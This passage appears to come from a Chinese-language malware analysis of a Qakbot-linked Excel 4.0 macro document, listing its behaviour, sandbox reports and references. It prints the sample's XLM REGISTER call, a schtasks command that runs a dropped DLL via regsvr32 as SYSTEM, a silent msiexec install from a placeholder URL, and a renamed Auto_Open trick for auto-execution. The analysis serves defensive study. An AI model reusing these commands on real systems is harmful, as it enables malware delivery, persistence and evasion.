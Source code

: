 ```=REGISTER(D21,Hertip&"FileA",Tiposa!D20,D23,,Tiposa!D22,Tiposa!D23)```
计划任务&注册一个控件(DLL)：

	"C:\Windows\system32\schtasks.exe" /Create /RU "NT AUTHORITY\SYSTEM" /tn okmwpgcpv /tr "regsvr32.exe -s \"C:\tmpd4x3ai\44614.671408912.dat.dll\"" /SC ONCE /Z /ST 01:02 /ET 01:14

枚举进程模块(CreateToolhelp32Snapshot)，查找指定进程名：

	potential cuckoo sandbox detection

sleep:

	explorer.exe  tried to sleep 411.043 seconds

信息搜集：

查询计算机名(GetComputerNameW)，获取系统信息(GetSystemInfo)，查询系统用户名(GetUserNameA),读取计算机名称(```HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\ComputerName\ActiveComputerName\ComputerName```),

## 某步分析结果

c375c83c189acf6199d36980377483f8

```https://s.threatbook.cn/report/file/51971b4fbec74c2694c93d1d0995dd244248a055986988758ece3d056e676984/?env=win7_sp1_enx86_office2013```

4b3d3146d7d6ad9396233f791ff050e4

```https://s.threatbook.cn/report/file/9891ad11b3a5e308f6ef9b63c9bf2c177a0f6b958752ba7a81d5ca878c376303/?env=win7_sp1_enx64_office2013```

## reference

https://blog.didierstevens.com/programs/oledump-py/

```http://didierstevens.com/files/software/oledump_V0_0_63.zip```

[office4.0 反混淆神器](https://github.com/DissectMalware/XLMMacroDeobfuscator)

[如何注册ocx文件](https://jingyan.baidu.com/article/c910274bfea203cd361d2db9.html)

[Old school: evil Excel 4.0 macros (XLM)](https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/)

[微软公布 Qakbot 家族恶意程序攻击链，模块化构建带来新挑战](https://zhuanlan.zhihu.com/p/448136766)

```https://tria.ge/s/family:qakbot```

[Evolution of Excel 4.0 Macro Weaponization](https://www.lastline.com/labsblog/evolution-of-excel-4-0-macro-weaponization/)

[如何启用宏_Excel 4.0宏武器化的演变--（上文翻译）](https://blog.csdn.net/weixin_33308985/article/details/112721063)

## 后记

windows 下载工具补充，

	msiexec /q /I http://ip/download/file.pdf

打开**名称管理器**

![](images/10.jpg)

将其命名为```Auto_Open22222```，而不是用于自动执行有效负载的典型```Auto_Open```名称，它仍然作为正常的```Auto_Open```例程执行。

![](images/11.jpg)

```